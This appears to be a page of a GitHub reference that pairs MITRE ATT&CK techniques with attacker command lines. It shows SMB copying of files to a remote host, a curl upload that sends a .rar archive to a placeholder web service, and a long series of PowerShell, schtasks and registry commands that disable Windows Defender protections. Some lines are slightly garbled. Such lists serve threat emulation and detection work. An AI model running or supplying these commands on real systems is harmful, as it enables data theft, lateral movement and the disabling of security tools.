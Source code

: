 
Lateral Tool Transfer via SMB [[T1570](https://attack.mitre.org/techniques/T1570/)]

```
$system32\cmd.exe /C copy * \\<remote_ip>\C$\windows\destination\folder
```
<br>

Exfiltration Over Web Service [[T1567](https://attack.mitre.org/techniques/T1567/)]

```
cmd.exe /C curl -F "file=@$selfpath\filename.rar" --ssl-no-revoke https[:]//webservice.io
```
<br>

Impair Defenses: Disable or Modify Tools [[T1562.001](https://attack.mitre.org/techniques/T1562/001/)]

```
PowerShell -exec bypass -command Set-MpPreference -DisableRealtimeMonitoring $True
"$windir\$system32\WindowsPowerShell\v1.0\PowerShell.exe" Add-MpPreference -ExclusionPath "\$path\to\file.ext"
﻿schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /f schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /f schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /f schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" /f Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -Disable IOAVProtection $true
Set-MpPreference -Disable Intrusion PreventionSystem $true
Set-MpPreference -DisableScanningNetworkFiles $true
Set-MpPreference -MAPSReporting
Set-MpPreference -DisableCatchupFullScan $True
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "AllowFastServiceStartup" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "ServiceKeepAlive" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d 0x1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "LocalSettingOverrideSpynetReporting" /t REG_DWORD /d 0x0 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 0x2 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\UX Configuration" /v "NotificationSuppress" /t REG_DWORD /d 0x1 /fe
powershell.exe Uninstall-WindowsFeature -Name Windows-Defender-GUI
```
<br>
